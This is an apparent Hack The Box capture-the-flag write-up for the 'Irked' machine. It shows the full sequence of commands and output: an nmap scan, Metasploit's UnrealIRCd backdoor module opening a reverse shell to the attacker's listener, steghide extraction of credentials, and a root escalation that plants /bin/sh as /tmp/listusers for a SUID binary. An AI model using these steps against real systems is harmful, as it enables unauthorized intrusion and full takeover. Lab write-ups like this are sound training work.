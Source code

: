 ```yaml
---
layout: single
title: Irked - Hack The Box
excerpt: "Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary."
date: 2019-04-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-irked/irked_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ctf
  - stego
  - cve
  - metasploit
  - suid
published: false
---
```


![](/assets/images/htb-writeup-irked/irked_logo.png)

Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary.

## Tools/Exploits/CVEs used

- steghide
- metasploit

## Summary

- UnrealIRCd MSF exploit for initial foothold
- steghide encoded file containing password for user
- SUID binary for priv esc

### Nmap

Aside from the typical Apache and OpenSSH services, I noticed that UnrealIRCd is installed.

```
# nmap -p- -sC -sV 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-17 14:02 EST
Nmap scan report for 10.10.10.117
Host is up (0.019s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33436/udp  status
|_  100024  1          50397/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
50397/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webpage

The main page just has a picture and a note about IRC.

![](/assets/images/htb-writeup-irked/web.png)

### UnrealIRCd exploitation

The box is running UnrealIRCd and searchsploit shows there's an MSF exploit for it:
```
root@ragingunicorn:~/Downloads# searchsploit unrealirc
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)
```

Getting a shell with Metasploit is easy:
```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
   RPORT   8067             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.23      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:8067 - Connected to 10.10.10.117:8067...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:8067 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo O1zcz5ML2uK8OjPk;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "O1zcz5ML2uK8OjPk\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:58328) at 2018-11-17 14:08:40 -0500
```

I have a shell as user `ircd`:
```
python -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

The `djmardov` user home directroy has a `.backup` file that contains the password for some stego encoded file:
```
djmardov@irked:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
djmardov@irked:~/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Password: `UPupDOWNdownLRlrBAbaSSss`

Since the note mentionned stego and this box is rated as easy, I guessed that it would be an off-the-shelf tool like `steghide` and not some custom obfuscation. The hidden file is found in the `irked.jpg` image from the main page and the steg doesn't use any passphrase.
```
root@ragingunicorn:~/Downloads# steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
root@ragingunicorn:~/Downloads# 
root@ragingunicorn:~/Downloads# cat pass.txt
Kab6h+m+bbp2J:HG
```

djmardov's password is: `Kab6h+m+bbp2J:HG`

I can SSH in and get the user flag:

```console
djmardov@irked:~/Documents$ cat user.txt
cat user.txt
4a66a7...
```

### Priv esc

I found a suspicious SUID file: `/usr/bin/viewuser`

```console
djmardov@irked:~$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```

When I execute the file, I see it runs `/tmp/listusers`

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
sh: 1: /tmp/listusers: not found
```

Since it's a running as root and I have write access to `tmp` I can just copy `/bin/sh` to `/tmp/listusers` and gain root

```console
djmardov@irked:~$ cp /bin/sh /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
# cd /root
# cat root.txt
8d8e9e...
```